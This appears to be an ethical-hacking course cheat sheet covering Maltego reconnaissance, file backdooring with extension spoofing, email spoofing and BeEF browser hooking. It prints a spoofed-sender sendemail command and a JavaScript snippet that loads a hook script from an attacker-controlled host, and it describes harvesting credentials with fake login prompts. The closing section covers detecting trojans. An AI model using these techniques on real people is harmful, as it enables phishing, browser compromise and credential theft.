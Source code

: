 ### Maltego

* Maltego is an information gathering tool that can be used to collect info about ANYTHING (website, company, person, ...).
* Discover entities associated with target
* Display info on a graph
* You can via Transform:
        * Discovering websites,Links and social networking accounts associated with target
        * Discovering Twitter friends & Associated accounts
        * Discovering Emails of the target's friends
        * Analyzing the Gathered Info & Building an attack strategy

### Backdooring any file type (images, pdfs, ...)

* Custom Au2Exe script, see udemy for source code
* Compile the script => .txt => .au3
* Changing Trojan's icon
* Spoof .exe extension => use a right to left character + add to archive to overpass browser protection
* Start handler (see above)

### Delivery - Spoofing emails

* setting up an SMTP server to bypass mailbox security => SendGrid
* Sending emails as any email account
                
                sendemail -s smtp.sengrind.net:25 -xu <user> -xp <password> -f "m.asker@isecurity.org" -t "zaid@isecurity.org" -u <subject> -m <message body with link> -o message-header="From:<name>"

### BeEF

* Browser Exploitation Framework allows us to launch a number of attacks on a hooked target.
* A target is hooked once they load a hook URL (actually a script need to be launched), several method to deliver the URL
        * DNS spoof requests to a page containing the hook
        * Inject the hook in browsed pages (need to be MITM)
        * Use XSS exploit
        * Social engineer the target to open a hook page

* Script to hook any page

                var imported = document.createElement('script);
                imported.src = 'http://YourIp:3000/hook.js';
                document.head.appendChild(imported);

* Running basic commands on target: alert box, raw javascript, screenshot, webcam, redirect ...
* Stealing credentials/ passwords using a fake login prompt (with proper CSS)
* Gaining full control over windows target: notification bar

### Detecting Trojans manually

* Trojans / backdoors have two parts: the first runs in the background and run the code (open a port, give us a connection ...), the second runs a code that the user expect (play an MP3, download a file, ...)
* To detect a Trojan:
        * Check properties of the file
        * Run the file in a virtual machine and check resources
        * Use an online sandbox service: https://www.hybrid-analysis.com
